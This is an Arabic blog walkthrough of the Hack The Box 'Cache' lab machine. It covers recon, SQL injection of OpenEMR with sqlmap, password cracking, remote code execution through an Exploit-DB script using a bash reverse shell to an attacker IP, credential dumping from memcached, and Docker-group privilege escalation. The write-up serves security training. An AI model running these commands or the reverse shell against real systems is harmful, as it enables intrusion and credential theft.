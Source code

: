 ```yaml
---
title: hackthebox cache walkthrough(arabic)
author: fasto
date: 2020-10-10 20:55:00 +0800
categories: [Blogging, Tutorial]
tags: [getting started]
pin: true
---
```


<h1>Summary</h1>
<br>
  اليوم Cache machine السلام عليكم تم فتح 
<br>
 hachthebox ساقوم بمشاركة مقال صغير يتحدث على هذا التحدي السيرفر متاح عبر منصة
 <br> هي منصة مختصة باختبار الاختراق في البداية نقوم ببعض الفحص المبدئي نجد كلمة سر واسم مستخدم بالاضافة الى دومين نايم مصاب 
<br> بصلاحية اباشي shell نستغلهما للحصول على sql injection و rce  بثغرتين 
<br>
 privilege escalation اما في مايخص 
 <br>
نكتشف ان اليوزر ينتمي الى مجموعة دوكر نستطيع بذلك الحصول على صلاحيات الروت بكل سهولة     
<h2>Walkthrough</h2>
<h4>Reconnaissance</h4>
    nmap نبدا بفحص البورتات باستخدام

```
$ nmap -A 10.10.10.188
Starting Nmap 7.60 ( https://nmap.org ) at 2020-08-21 09:17 CET
Nmap scan report for cache.htb (10.10.10.188)
Host is up (0.33s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                      
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                             
|_http-title: Cache                                                                                                                                      
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.04 seconds
```
نلاحظ وجود 2 بورت
<br>
80 : الخاص بالويب سيرفر
<br>
22: الخاص ب ssh
<br>
لنبدا مع 80                                                                                                                                  
![Desktop View](/img/00.png)
 
sqli عند تصفح السيرفر نجد هناك مربع تسجيل الدخول نجرب 
<br>
 
لكن لا جدوى الموقع ليس مصاب 
<br>
![Desktop View](/img/0.png)


<h4>Enumeration</h4>

نشغل dirb
<br>
بالامر التالي

![Desktop View](/img/1.png)
  javascript نلاحظ وجود 2 مجلدات  
و
<br>
jquery
<br>
عند فتح المجلد الثاني نجد هناك ملف بداخله  كلمة سر و كلمة مستخدم لنحتفظ به ونستمر بالبحث 
<br>password : H@v3_fun
<br>username : ash

![Desktop View](/img/2.png)


<h5>Subdomain Enumeration FUFF</h5>
نبحث عن دومين باستخدام
<br>
ffuf

![Desktop View](/img/3.png)
<br>
 hms وجدنا دومين اسمه

نضع الدومين في ملف 
<br>
/etc/hosts
<br>
```
10.10.10.188    hms.htb
```
نتصفح الدومين الجديد 
![Desktop View](/img/4.png)
 بعد البحث في جوجل نجد ان التطبيق الشغال في هذا الدومين مصاب بثغرة الحقن
<br></br>
وجدنا هذا الفيديو على يوتيوب يشرح هذه الثغرة
<br>
https://www.youtube.com/watch?v=DJSQ8Pk_7hc
<br>
نتبع الخطوات كما هو موضح في الفيديو
<br>
burp نلتقط الريكوست باستخدام برنامج 
![Desktop View](/img/5.png)

نقوم بحفظ الريكوست في ملف 
![Desktop View](/img/6.png)
<br>
sqlmap ثم نقوم بالحقن باستخدام 
<br>
```sqlmap -r om.req  --dbs```
<br>om.req ---> الريكوست السابقة
<br>
\--dbs  ---> عرض قواعد البيانات

![Desktop View](/img/7.png)
<br>
وجدنا اسم قاعدة البيانات
![Desktop View](/img/8.png)
<br>
لنستخرج الجداول الان
``` sqlmap -r login.req -D openemr --table ```
<br>
<br>-D      ---> اسم قاعدة البيانات
<br>--table ---> استخراج الجداول
<br>  
الان استخرجنا كل الجداول الان نسحب كلمة السر واليوزر المتواجد في الجدول
<br>
users_secure
<br>
``` sqlmap -r login.req -D openemr -T users_secure --dump ```

![Desktop View](/img/10.png)

![Desktop View](/img/11.png)
وجدنا كلمة سر مشفرة
<br>
john نفك تشفيرها باستخدام برنامج
  <br>
```
$ john /tmp/hash -wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-08-21 16:12) 3.333g/s 2880p/s 2880c/s 2880C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
<br>
xxxxxx حصلنا على كلمة سر 
 
<br>
نجد انها صحيحةopenemr عند تجريبها في    
 
<br>   rce من البحث السابق وجدنا ايضا ان البرنامج مصاب بثغرة
ووجدنا ايضا سكريبت الاستغلال
نحمله من هنا
</br>https://www.exploit-db.com/exploits/45161

![Desktop View](/img/13.png)
<br>
```python 45161.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.212/1338 0>&1'```
<br>
 الخاص بك ip ضع  
10.10.14.212  :مكان

<br> الان دخلنا الى السيرفر
لكن بصلاحيات اباشي
<h4>Privilege Escalation</h4>

باستخدام الامر التالي نلاحظ ان البورت 11211 مفتوح
<br>
```netstat -plant```
<br>
  memcached هذا البورت خاص ب 
![Desktop View](/img/14.png)


```netstat -plant```
<br>لنقم بسحب البيانات
<br>  telnet عبر memcached نتصل ب   
```telnet localhost 11211```
<br>  STAT command نكتب الامر التالي 

<br>

```STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0
STAT items:1:age 30
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:evicted_active 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 140
STAT items:1:lrutail_reflocked 0
STAT items:1:moves_to_cold 3205
STAT items:1:moves_to_warm 0
STAT items:1:moves_within_lru 0
STAT items:1:direct_reclaims 0
STAT items:1:hits_to_hot 0
STAT items:1:hits_to_warm 0
STAT items:1:hits_to_cold 0
STAT items:1:hits_to_temp 0
END
```
<br>
ثم
stats cachedump 1 0

```
stats cachedump 1 0

ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]                                                                                                                                  
END   
```
حصلنا على اليوزر
```
get user                                                                                                                                       
VALUE user 0 5
luffy
END
```
حصلنا على كلمة السر
```
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```
<br>![Desktop View](/img/15.png)

<br>
 ssh حصلنا على اليوزر و كلمة السر لنجرب الاتصال عبر 
<br>
<br>

  doker ينتمي الى المجموعة  luffy نكتشف ان اليوزر
 

<br>
gtgobins  نذهب الى موقع
```https://gtfobins.github.io/gtfobins/docker/
```
 
  
<br>![Desktop View](/img/16.png)
```
luffy@cache:~$ docker images
 REPOSITORY TAG IMAGE ID CREATED SIZE
 ubuntu latest 2ca708c1c9cc 7 months ago 64.2MB
 ```
 
<br>![Desktop View](/img/17.png)
حصلنا على صلاحيات رووت
